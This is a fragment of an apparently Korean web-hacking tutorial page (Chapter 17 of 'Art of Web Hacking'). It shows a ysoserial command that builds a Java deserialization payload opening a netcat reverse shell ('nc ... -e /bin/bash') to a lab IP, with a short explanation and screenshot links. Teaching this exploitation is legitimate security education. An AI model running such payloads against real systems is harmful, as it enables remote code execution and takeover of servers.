 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">java&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>jar&nbsp;ysoserial<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>master<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>30099844c6<span style="color:#0086b3"></span><span style="color:#ff3399">-</span><span style="color:#308ce5">1.</span>jar&nbsp;commonsCollectionsl&nbsp;<span style="color:#993333">"nc&nbsp;192.168.56.116&nbsp;4000&nbsp;-e&nbsp;/bin/bash"</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span>&nbsp;reverse.bin</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-원하는 명령어를 실행할 수 있는 공격 코드 만들기 위해서 공격 코드를<br>reverse.bin 파일로 생성 시킵니다.

<div align="center" >
<img src="/Art of Web Hacking/Chapter17/005.png" width="520" height="259"> <br>
</div>
<div align="center" >
<img src="/Art of Web Hacking/Chapter17/006.png" width="520" height="259"> <br>
</div>
<div align="center" >